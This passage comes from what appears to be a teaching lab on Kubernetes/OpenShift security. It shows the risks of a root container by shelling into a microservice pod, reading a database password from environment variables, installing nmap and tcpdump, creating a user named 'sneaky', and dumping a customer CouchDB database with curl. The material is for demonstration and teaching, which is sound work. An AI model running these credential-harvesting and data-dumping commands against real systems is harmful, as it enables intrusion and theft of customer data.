 # How about the non-functionals?

Things look good from a functional perspective but how about the non-functionals?

Let's go!

    oc rsh $(oc get po -l deployment=customer-ms-spring --output custom-columns=:.metadata.name)

Examine who you are:

    id

Expected output:

    sh-4.2# id
    uid=0(root) gid=0(root) groups=0(root)    

Explore the env:

    env | grep PASS

Expected output:

    sh-4.2# env | grep PASS
    COUCHDB_PASSWORD=passw0rd

Install some tools:

    yum install -y tcpdump
    yum install -y nmap
    yum install epel-release
    yum install -y jq

Create a user:

    useradd sneaky


Get the CouchDB address:

    CD_HOST=$(env | grep CUSTOMERCOUCHDB_SERVICE_HOST | cut -d"=" -f2)
    CD_USER=$(env | grep COUCHDB_USERNAME | cut -d"=" -f2)
    CD_PASSWORD=$(env | grep COUCHDB_PASSWORD | cut -d"=" -f2)

And there we go:

    curl http://${CD_USER}:${CD_PASSWORD}@${CD_HOST}:5984/_all_dbs

Expected result:

    sh-4.2# curl -s http://${CD_USER}:${CD_PASSWORD}@${CD_HOST}:5984/_all_dbs
    ["customers"]

Get the content of the database:

    curl -s http://${CD_USER}:${CD_PASSWORD}@${CD_HOST}:5984/customers/_all_docs?include_docs=true|jq

Then something happens:

![Order](../../images/potential-data-breach.png?raw=true "Title")

Let us hope for Jedi Master foo and his Friends that they do not re-use the passwords on other sites in the Galaxy. 

Also, the blue compute shop company is at risk as the safety of the shop is held by the last defenses.

If the hacker were able to perform remote code execution ..

Suddenly it feels chilly on Yavin 4 ..

Can developer Cody defend the shop? 

To exit the container type `exit` and hit enter
    
    sh-4.2# exit
    exit

If you came here from the security lab, return back to it [here](./README-V3.md#root-container).
